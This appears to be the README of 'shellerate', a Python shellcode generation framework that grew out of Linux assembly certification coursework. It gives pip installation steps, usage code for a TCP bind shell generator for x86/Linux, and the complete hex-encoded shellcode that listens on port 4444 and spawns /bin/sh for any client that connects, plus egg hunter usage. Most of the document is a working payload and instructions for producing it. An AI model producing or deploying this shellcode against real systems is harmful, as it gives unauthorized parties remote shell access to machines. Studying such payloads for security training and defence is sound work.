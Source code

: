 # Shellerate

## Introduction

This the Changelog file for the shellerate project. 'shellerate' is pun between
'shell' and 'scellerato', the Italian word for 'wicked'.

'shellerate' is a shellcode generation framework born from the assignments I
took for the SecurityTube Linux Assembly Expert certification process.

You can feature custom encoders, custom crypters, polymorphism and all stuff I
learned in the SLAE certification process.

shellerate is Python3 package and supported architectures and operating system
are limited to:

* x86/Linux

Of course other architectures and operating systems will be added in the future.

## Installation

To install shellerate to your system you can issue the following command:

> pip install shellerate

## Available payloads

### TCP Bind shell shellcode

This shellcode will bind on a given port, waiting for clients and spawn a shell
on the incoming connection.

#### Platform

At the moment, this shellcode is available only for x86/Linux platform.

#### Features

| Feature | Supported |
|---------|-----------|
| Encoding | Yes |
| Crypter | No |
| Egg Hunter | Yes |

#### Usage

Basic usage:

```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'linux')
b.generate()
print("Shellcode: %s" % b.shellcode())
'\\x31\\xc0\\x89\\xc3\\x89\\xc1\\x89\\xc2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\x31\\xc0\\x66\\xb8\\x69\\x01\\x31\\xc9\\x51\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x31\\xc9\\x31\\xc0\\x66\\xb8\\x6b\\x01\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x51\\x89\\xce\\x89\\xe1\\x89\\xe2\\xcd\\x80\\x89\\xc3\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80'
```

Usage with egg hunter

```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'linux')
b.egg_hunter()
b.generate()
sc = b.shellcode()

print("Egg Hunter: %s" % sc["egg_hunter_code"])
print("Shellcode: %s" % sc["egg_hunter_shellcode"])
```
